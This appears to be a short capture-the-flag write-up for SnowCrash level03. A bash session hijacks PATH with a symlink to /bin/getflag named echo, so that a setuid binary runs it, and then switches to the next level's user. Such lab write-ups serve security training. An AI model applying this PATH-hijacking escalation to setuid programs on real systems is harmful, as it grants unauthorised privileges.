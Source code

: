 # level03

Symbolic links are rather tricky to do securely, especially when `setuid` and friends are involved
```bash
level03@SnowCrash:~ $ ln -s /bin/getflag /tmp/echo
level03@SnowCrash:~ $ env PATH="/tmp:$PATH" ./level03
#OUTPUT
level03@SnowCrash:~ $ rm -f /tmp/echo
level03@SnowCrash:~ $ su level04
#OUTPUT
level04@SnowCrash:~ $
```
